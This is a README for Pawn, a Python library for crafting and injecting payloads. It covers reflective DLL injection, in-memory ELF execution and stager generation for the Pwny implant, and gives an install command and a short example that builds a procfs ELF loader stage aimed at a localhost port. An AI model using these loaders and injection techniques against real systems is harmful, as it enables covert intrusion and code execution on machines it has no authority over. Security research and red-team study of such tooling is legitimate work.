 # Pawn

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS`.
* Support for such techniques like `Reflective DLL Injection` and `ELF in-memory execution`.
* Can generate stage0, stage1 and dynamic extensions for Pwny.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of using ELF in-memory loader (using procfs technique [described here](https://entysec.github.io/2023-04-02-remote-elf-loading/)).

```python
from pawn.linux.x64 import Loader

loader = Loader()

stage = loader.procfs_loader(
    host='127.0.0.1',
    port=8888,
)

print(len(stage))
```

## Special Thanks

* Some parts of **Windows assembly code** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
